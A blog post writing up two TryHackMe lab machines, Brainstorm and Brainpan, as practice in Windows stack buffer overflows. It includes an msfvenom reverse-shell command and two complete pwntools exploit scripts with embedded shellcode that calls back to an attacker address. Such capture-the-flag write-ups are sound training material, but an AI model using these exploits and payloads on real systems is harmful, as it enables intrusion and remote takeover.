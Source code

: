 ```yaml
---
layout: post
title:  "Tryhackme Day Seven"
date:   2020-07-07 20:05:48 +0100
categories: pwn
---
```


Here is day six of the 30 days of pwn challenge. Today we will be looking at 2 TryHackMe machines: [Brainpan](https://tryhackme.com/room/brainpan) and [Brainstorm](https://tryhackme.com/room/brainstorm)

## Brainstorm

### NMAP
```
PORT     STATE    SERVICE
21/tcp   open     ftp
3389/tcp open     ms-wbt-server
9999/tcp open abyss
```

### FTP
```
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-29-19  08:36PM       <DIR>          chatserver
226 Transfer complete.
ftp> cd chatserver
250 CWD command successful.
ftp> binary
200 Type set to I.
ftp> mget *
```
Now we have the useful files for the chatserver, we can run it on a windows machine and try to get an exploit from it.

### Finding offset
```
└──╼ $msf-pattern_offset -l 5000 -q 31704330
[*] Exact match at offset 2012
```
After attaching the process to immunity debugger and sending the 5000 char payload, we see that the program crashes upon trying to return to "31704330"

With this knowledge we can search the hex address in msf-pattern_offset to find the offset we need.

### Identify bad chars
```
badChars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
"\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
"\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
"\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"
"\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
```
After Sending the payload including these bad chars, we can look on immunity debugger to see if there are any characters missing from the dump
In this case there are no bad chars (other than \x00).


## Checking Protections
```
!mona modules
```
Using this command we can find the current protections on the binaries that we will be attacking. In this case neither of the programs have any protections on them.
### Finding JUMP ESP gadget
```
!mona find -s '\xff\xe4' -m essfunc.dll
```
This command will show us all of the jump esp gadgets we can use on the machine to return to our shellcode.

### Generate Shell code
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.14 LPORT=4444 -b "\x00" -f python
```
### Exploit Code
```
from pwn import *

r = remote("10.10.10.12",9999)
username = "c0rn"
offset = "A" * 2012
JMP_ESP = p32(0x625014DF)
nop_slide = "\x90" * 100

buf =  b""
buf += b"\xbb\x53\x2f\x16\xb0\xd9\xee\xd9\x74\x24\xf4\x5e\x33"
buf += b"\xc9\xb1\x52\x31\x5e\x12\x03\x5e\x12\x83\xbd\xd3\xf4"
buf += b"\x45\xbd\xc4\x7b\xa5\x3d\x15\x1c\x2f\xd8\x24\x1c\x4b"
buf += b"\xa9\x17\xac\x1f\xff\x9b\x47\x4d\xeb\x28\x25\x5a\x1c"
buf += b"\x98\x80\xbc\x13\x19\xb8\xfd\x32\x99\xc3\xd1\x94\xa0"
buf += b"\x0b\x24\xd5\xe5\x76\xc5\x87\xbe\xfd\x78\x37\xca\x48"
buf += b"\x41\xbc\x80\x5d\xc1\x21\x50\x5f\xe0\xf4\xea\x06\x22"
buf += b"\xf7\x3f\x33\x6b\xef\x5c\x7e\x25\x84\x97\xf4\xb4\x4c"
buf += b"\xe6\xf5\x1b\xb1\xc6\x07\x65\xf6\xe1\xf7\x10\x0e\x12"
buf += b"\x85\x22\xd5\x68\x51\xa6\xcd\xcb\x12\x10\x29\xed\xf7"
buf += b"\xc7\xba\xe1\xbc\x8c\xe4\xe5\x43\x40\x9f\x12\xcf\x67"
buf += b"\x4f\x93\x8b\x43\x4b\xff\x48\xed\xca\xa5\x3f\x12\x0c"
buf += b"\x06\x9f\xb6\x47\xab\xf4\xca\x0a\xa4\x39\xe7\xb4\x34"
buf += b"\x56\x70\xc7\x06\xf9\x2a\x4f\x2b\x72\xf5\x88\x4c\xa9"
buf += b"\x41\x06\xb3\x52\xb2\x0f\x70\x06\xe2\x27\x51\x27\x69"
buf += b"\xb7\x5e\xf2\x3e\xe7\xf0\xad\xfe\x57\xb1\x1d\x97\xbd"
buf += b"\x3e\x41\x87\xbe\x94\xea\x22\x45\x7f\x1f\xb9\x4f\x71"
buf += b"\x77\xbf\x4f\x9c\xdb\x36\xa9\xf4\xf3\x1e\x62\x61\x6d"
buf += b"\x3b\xf8\x10\x72\x91\x85\x13\xf8\x16\x7a\xdd\x09\x52"
buf += b"\x68\x8a\xf9\x29\xd2\x1d\x05\x84\x7a\xc1\x94\x43\x7a"
buf += b"\x8c\x84\xdb\x2d\xd9\x7b\x12\xbb\xf7\x22\x8c\xd9\x05"
buf += b"\xb2\xf7\x59\xd2\x07\xf9\x60\x97\x3c\xdd\x72\x61\xbc"
buf += b"\x59\x26\x3d\xeb\x37\x90\xfb\x45\xf6\x4a\x52\x39\x50"
buf += b"\x1a\x23\x71\x63\x5c\x2c\x5c\x15\x80\x9d\x09\x60\xbf"
buf += b"\x12\xde\x64\xb8\x4e\x7e\x8a\x13\xcb\x8e\xc1\x39\x7a"
buf += b"\x07\x8c\xa8\x3e\x4a\x2f\x07\x7c\x73\xac\xad\xfd\x80"
buf += b"\xac\xc4\xf8\xcd\x6a\x35\x71\x5d\x1f\x39\x26\x5e\x0a"

payload = offset + JMP_ESP + nop_slide + buf

r.recv(1024)
r.sendline(username)
r.recv(1024)
r.sendline(payload)
r.close()
```

## Brainpan

### NMAP
```
PORT      STATE    SERVICE
5718/tcp  filtered dpm
9999/tcp  open     abyss
10000/tcp open     snet-sensor-mgm
```

### Finding the binary
```
gobuster dir -u http://10.10.58.196:10000/ -w /opt/SecLists/Discovery/Web-Content/big.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.58.196:10000/
[+] Threads:        10
[+] Wordlist:       /opt/SecLists/Discovery/Web-Content/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/07/07 08:05:11 Starting gobuster
===============================================================
/bin (Status: 301)
```
### Exploiting the binary
Since this machine is literally exactly the same process as the previous machine, I will not copy and paste the commands over as it will add nothing.

### Exploit Code
```
from pwn import *

r = remote("10.10.10.12",9999)
offset = "A" * 524
JUMP_ESP = p32(0x311712F3)
nop_slide = "\x90" * 100
buf =  b""
buf += b"\xdb\xd3\xbd\x30\x3e\x7a\xa3\xd9\x74\x24\xf4\x58\x29"
buf += b"\xc9\xb1\x52\x31\x68\x17\x83\xc0\x04\x03\x58\x2d\x98"
buf += b"\x56\x64\xb9\xde\x99\x94\x3a\xbf\x10\x71\x0b\xff\x47"
buf += b"\xf2\x3c\xcf\x0c\x56\xb1\xa4\x41\x42\x42\xc8\x4d\x65"
buf += b"\xe3\x67\xa8\x48\xf4\xd4\x88\xcb\x76\x27\xdd\x2b\x46"
buf += b"\xe8\x10\x2a\x8f\x15\xd8\x7e\x58\x51\x4f\x6e\xed\x2f"
buf += b"\x4c\x05\xbd\xbe\xd4\xfa\x76\xc0\xf5\xad\x0d\x9b\xd5"
buf += b"\x4c\xc1\x97\x5f\x56\x06\x9d\x16\xed\xfc\x69\xa9\x27"
buf += b"\xcd\x92\x06\x06\xe1\x60\x56\x4f\xc6\x9a\x2d\xb9\x34"
buf += b"\x26\x36\x7e\x46\xfc\xb3\x64\xe0\x77\x63\x40\x10\x5b"
buf += b"\xf2\x03\x1e\x10\x70\x4b\x03\xa7\x55\xe0\x3f\x2c\x58"
buf += b"\x26\xb6\x76\x7f\xe2\x92\x2d\x1e\xb3\x7e\x83\x1f\xa3"
buf += b"\x20\x7c\xba\xa8\xcd\x69\xb7\xf3\x99\x5e\xfa\x0b\x5a"
buf += b"\xc9\x8d\x78\x68\x56\x26\x16\xc0\x1f\xe0\xe1\x27\x0a"
buf += b"\x54\x7d\xd6\xb5\xa5\x54\x1d\xe1\xf5\xce\xb4\x8a\x9d"
buf += b"\x0e\x38\x5f\x31\x5e\x96\x30\xf2\x0e\x56\xe1\x9a\x44"
buf += b"\x59\xde\xbb\x67\xb3\x77\x51\x92\x54\x72\xac\x96\xaa"
buf += b"\xea\xb2\xa6\xa3\xb6\x3b\x40\xa9\x56\x6a\xdb\x46\xce"
buf += b"\x37\x97\xf7\x0f\xe2\xd2\x38\x9b\x01\x23\xf6\x6c\x6f"
buf += b"\x37\x6f\x9d\x3a\x65\x26\xa2\x90\x01\xa4\x31\x7f\xd1"
buf += b"\xa3\x29\x28\x86\xe4\x9c\x21\x42\x19\x86\x9b\x70\xe0"
buf += b"\x5e\xe3\x30\x3f\xa3\xea\xb9\xb2\x9f\xc8\xa9\x0a\x1f"
buf += b"\x55\x9d\xc2\x76\x03\x4b\xa5\x20\xe5\x25\x7f\x9e\xaf"
buf += b"\xa1\x06\xec\x6f\xb7\x06\x39\x06\x57\xb6\x94\x5f\x68"
buf += b"\x77\x71\x68\x11\x65\xe1\x97\xc8\x2d\x11\xd2\x50\x07"
buf += b"\xba\xbb\x01\x15\xa7\x3b\xfc\x5a\xde\xbf\xf4\x22\x25"
buf += b"\xdf\x7d\x26\x61\x67\x6e\x5a\xfa\x02\x90\xc9\xfb\x06"
payload = offset + JUMP_ESP + nop_slide + buf

print r.recv(1024)
r.sendline(payload)
r.close()
```

I won't detail the priv esc for brainpan since it's supposed to be 30 days of pwn, but it's simply checking sudo priveleges and spawning a shell from it.

## Conclusion

This was a nice break from the other pwn stuff I have been doing. It's an extremely simple process to go through and I will be extremely happy if this is similar to the OSCP buffer overflow machine! I would imagine they have an extra hoop to go through when doing it though.